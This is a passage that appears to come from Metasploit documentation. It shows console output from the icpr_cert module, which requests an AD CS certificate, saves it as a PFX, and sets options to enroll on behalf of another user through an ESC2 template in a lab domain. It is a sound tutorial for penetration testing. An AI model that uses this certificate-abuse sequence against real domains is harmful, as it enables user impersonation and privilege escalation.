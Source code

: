 ```
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we need to use the PFX file that we got to request another certificate to authenticate on behalf of another user. We will use the `PFX` option to specify the PFX file, and the `ON_BEHALF_OF` setting to specify the user we would like to authenticate on behalf of. Finally we will change the certificate template to another certificate template that we are able to enroll in. The default `User` certificate should work here since it allows enrollment by any authenticated domain user.

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normaluser                   no        The password for the specified username
   SMBUser        normal                       no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.
```
